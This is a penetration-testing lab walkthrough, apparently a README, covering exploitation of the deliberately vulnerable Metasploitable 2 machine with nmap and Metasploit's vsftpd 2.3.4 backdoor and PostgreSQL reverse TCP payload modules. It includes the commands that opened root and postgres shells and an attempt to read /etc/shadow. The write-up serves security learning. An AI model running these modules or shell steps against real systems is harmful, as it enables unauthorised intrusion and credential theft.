






# Metasploitable 2 Walkthrough: Exploiting FTP and PostgreSQL

[Read the full write-up on Medium](https://medium.com/@amesysia/metasploitable-2-walkthrough-exploiting-ftp-and-postgresql-7d130eadd8bd)

> [!WARNING]
> This project was executed in an isolated lab environment and for educational purposes only.


Metasploitable is a vulnerable Ubuntu Linux machine designed for penetration testing practice. In this walkthrough, I will document my step-by-step process of enumerating and exploiting various services on this machine.

**1. Lab Setup and Access**

I downloaded Metasploitable and set it up in VirtualBox. I connected it to my own NAT Network so it could communicate with my Kali machine while remaining isolated from my main network.

I logged in using the default credentials (msfadmin:msfadmin) and ran `ifconfig` to find the machine's IP address: 10.0.2.6.

**2. Reconnaissance**

I ran nmap on Kali:

```
nmap -v -sS -A -T4 10.0.2.6 -oN nmapresult.txt
```

`-v` (verbose) to see detailed information,
`-sS` (TCP SYN scan) to perform a SYN scan,
`-A` (aggressive) to enable OS detection, version detection, script scanning, and traceroute all at once,
`-T4` (timing template) to speed up the scan; It is intended for reasonably fast and reliable networks,
`-oN` to print results to a file.

**3.1 FTP — vsftpd 2.3.4 Backdoor**

I searched through the Nmap results and saw that anonymous FTP login was allowed. I also noted the vsftpd version was 2.3.4. I ran Metasploit to see if any exploits were available.

Metasploit is a penetration testing framework for finding, testing, and exploiting system vulnerabilities.

I started Metasploit by running `msfconsole` and searched for exploits using `search vsftpd 2.3.4`.



I found a backdoor exploit and used it with the command below:

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

I configured `RHOST` and `LHOST` so Metasploit would know the target address and the local address to use. I set Kali’s IP 10.0.2.3 for lhost, and Metasploitable’s IP 10.0.2.6 for rhost.



After configuring the hosts, instead of running the exploit directly, I used `exploit -j -z`. The `-j` flag runs the exploit as a background job so the terminal remains usable, and `-z` prevents Metasploit from automatically dropping into the session once it opens. This way, I could check all open sessions with `sessions -l` and connect to the one I wanted using `sessions 1`.

```
set target 0
exploit -j -z
sessions -l
sessions 1
```



This exploit gave me a Meterpreter session, a powerful interactive shell that goes beyond basic command execution. Meterpreter provides built-in commands for things like file transfers, webcam access, microphone capture, and installing backdoors.

Since I was in a Meterpreter session, standard Linux commands like `whoami` returned an `unknown command` error. Instead, I used Meterpreter's `getuid` command to check my current user and `sysinfo` to view system information. The `getuid` output showed that I had root privileges in this session.



**3.2. PostgreSQL — Reverse TCP Shell**

Another thing that caught my attention in the Nmap results was PostgreSQL. I started Metasploit again and searched for PostgreSQL-related modules. I found `exploit/linux/postgres/postgres_payload`. This module can execute a payload on some Linux systems with vulnerable PostgreSQL configurations.



The module uses a reverse TCP connection. This means the target machine starts a connection to my Kali machine, where Metasploit is listening. With a bind TCP payload, the target machine listens for incoming connections instead.

I ran the commands in the order:

```
set rhosts 10.0.2.6
set lhost 10.0.2.3
exploit -j -z
sessions -l
sessions 1
```

I got another Meterpreter session. I ran `getuid`, `sysinfo`, and `ls` to check my privileges, gather system information, and list the files on the target machine. Unlike the vsftpd exploit, `getuid` revealed I was running as the `postgres` user, not root.



**4. Post-Exploitation**

With root access from the vsftpd session, I explored the file system and confirmed I could read, modify, or delete files, which demonstrated the level of damage a real attacker could cause with this level of access.

In the PostgreSQL session, I ran `ls` and noticed several files related to server and root certificates. This caught my attention because certificates and their associated private keys can play an important role in secure communications. However, I did not verify whether these files contained sensitive information or could be used in further attacks.

I also tried to read `/etc/shadow` from the PostgreSQL session. The regular shell returned `Permission denied`, while the command did not work directly in Meterpreter. After checking `getuid`, I confirmed that the session was running as `postgres`, not root. This showed me that gaining a shell does not automatically grant root privileges.

**5. Reflection**

This exercise showed me that even a single unpatched service can give an attacker significant access to a system. The vsftpd backdoor granted full root access, while the PostgreSQL exploit showed me that a vulnerable service can provide access to a system, but the level of access may be limited. The difference in privileges between the two sessions also reminded me that getting a shell is just the beginning. Understanding what you can do with that access is equally important.
